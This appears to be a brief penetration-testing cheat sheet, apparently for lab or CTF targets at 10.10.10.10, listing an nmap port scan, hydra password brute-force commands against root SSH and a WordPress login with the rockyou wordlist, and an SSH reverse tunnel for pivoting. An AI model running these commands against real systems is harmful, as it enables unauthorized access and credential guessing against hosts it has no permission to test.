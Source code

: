 
## Port Scanning
```bash
sudo nmap 10.10.10.10 -sS -sU --min-rate 1000 -oA demo-openports-initial
```

## Password Guessing
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt 10.10.10.10 -t4 ssh

hydra -l root -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-post-form "/blog/wp-login.php?:log=^USER^&pwd=^PASS^:Error"
```

## Pivoting
```bash
ssh -R 8080:localhost:8080 victor@home.edu
```

